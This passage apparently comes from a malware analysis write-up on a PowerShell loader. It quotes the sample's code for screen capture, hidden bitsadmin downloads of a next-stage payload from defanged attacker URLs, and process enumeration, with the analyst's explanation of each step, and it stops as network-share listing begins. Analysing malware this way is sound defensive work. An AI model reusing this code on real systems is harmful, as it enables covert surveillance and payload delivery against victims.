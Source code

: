     }
    $FileName="${screenCapturePathBase}${cc}.jpg"    
    $Bitmap = New-Object System.Drawing.Bitmap($C.Bounds.Width, $C.Bounds.Height)
    $G = [System.Drawing.Graphics]::FromImage($Bitmap)
    $G.CopyFromScreen($C.Bounds.Location, (New-Object System.Drawing.Point(0,0)), $C.Bounds.Size)
    $g.Dispose()
    $Quality=70;
    $EncoderParam = [System.Drawing.Imaging.Encoder]::Quality
    $EncoderParamSet = New-Object System.Drawing.Imaging.EncoderParameters(1)
    $EncoderParamSet.Param[0] = New-Object System.Drawing.Imaging.EncoderParameter($EncoderParam, $Quality)
    $JPGCodec = [System.Drawing.Imaging.ImageCodecInfo]::GetImageEncoders() | Where{$_.MimeType -eq 'image/jpeg'}
    $Bitmap.Save($FileName ,$JPGCodec, $EncoderParamSet)
    $FileSize = [INT]((Get-Childitem $FileName).Length / 1KB)
  }
}
Then, a list of URLs is probed to download the next payload. They use BitsAdmin to do the job in the background and wait for the completion of at least one download. 

$d = @("hxxps://cflfuppn[.]eu/sload/gate.php","hxxps://sbnlnepttqvbltm[.]eu/sload/gate.php”);
For ($i=0; $i -le $d.Length-1; $i++){
  $rp= -join ((65..90) + (97..122) | Get-Random -Count 8 | % {[char]$_})
  $dm0 = "cmd.exe";
  $ldf='/C bitsadmin /transfer '+$rp+' /download /priority normal "'+$d[$i]+'?ch=1" '+$path+'\'+$uuid+'_'+$i;
  $ldg='/C bitsadmin /SetMaxDownloadTime '+$rp+' 60'
  start-process -wiNdowStylE HiDden $dm0 $ldf;
  start-process -wiNdowStylE HiDden $dm0 $ldg;
}

$e=1
while($e -eq 1) {
  $ad=2;
  For ($i=0; $i -le $d.Length-1; $i++) {        
    $pp=$path+'\'+$uuid+'_'+$i;
    if([System.IO.File]::Exists($pp)) {
      $line=Get-Content $pp
      if ($line -eq "sok"){ $did=$i; }
      $ad=1;
    }            
  }
  if ($ad -eq 1){ $e=2; }
  Start-Sleep -m 30000
}
Note the very long waiting time in the loop (30K minutes). Unfortunately, both URLs were not working during my analysis. At the end of the while() loop, $did contains the index of the URL which worked. It will be re-used later.
The next step is to generate a list of processes running on the target system (without the classic Windows system processes)

$out="";
$tt=Get-Process  | Select-Object name
for ($i=0; $i -le $tt.length-1; $i++) {
  if ($tt[$i].Name -notmatch "svchost" -and $tt[$i].Name -notmatch "wininit" -and $tt[$i].Name -notmatch "winlogon" -and \
      $tt[$i].Name -notmatch "System" -and $tt[$i].Name -notmatch "dllhost" -and $tt[$i].Name -notmatch "conhost" -and \
      $tt[$i].Name -notmatch "ApplicationFrameHost" -and $tt[$i].Name -notmatch "csrss" -and \
      $tt[$i].Name -notmatch "bitsadmin" -and $tt[$i].Name -notmatch "cmd" -and $tt[$i].Name -notmatch "RuntimeBroker") {
    $out=$out+"*"+$tt[$i].Name;
  }    
}
The list of network shares is generated: